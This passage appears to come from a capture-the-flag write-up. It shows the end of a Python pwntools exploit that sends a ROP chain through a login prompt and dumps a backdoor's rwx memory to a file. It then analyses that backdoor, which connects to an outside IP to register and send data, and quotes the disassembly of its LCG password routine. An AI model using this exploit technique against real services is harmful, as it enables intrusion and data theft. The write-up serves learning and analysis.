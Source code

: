 ```python3
            p64(0),
            p64(0),
            p64(send_plt)
        ])

    # send payload in username and password
    io.sendlineafter(b': ', b''.join(chain))
    io.sendlineafter(b': ', b'AAAAAAAA')
    io.recvline()

    # read rwx sections and write them into the file
    with open('backdoor.bin', 'wb') as file:
        for start, size in regions:
            print(hex(start), size)
            file.write(io.recvn(size))


if __name__ == '__main__':
    with remote('0.0.0.0', 50009) as io:
        main(io)
```

And we've got a file `backdoor.bin` with rwx sections. Let's disassemble them.

## Analyzing the backdoor

The analysis of the backdoor is pretty straightforward, it does not contain any obfuscation. I won't provide a full assembler listing, if you want you can get the raw dump [here](backdoor.bin). The backdoor performs two socket connections:

1. connect to `34.77.100.237:65278` and register
2. connect to `34.77.100.237:64250` and send data here

The backdoor have some non-trivial logic while registering itself on port `65278`. After some analysis we've understood that it uses `ID` and `password`. The `ID` it gets from the server, but the `password` is generated by some cryptographic algorithm. But it's not too hard, since it was an [LCG](https://en.wikipedia.org/wiki/Linear_congruential_generator). Here is two functions related to LCG:

```
initialize      proc near
                mov     rax, 100000000h
                mov     [rax], rdi
                retn
initialize      endp

lcg_step        proc near
                mov     rdi, 100000000h
                imul    eax, [rdi], 1103515245
                add     eax, 12345
                and     eax, 7FFFFFFFh
                mov     rdi, 100000000h
                mov     [rdi], rax
                retn
lcg_step        endp
```
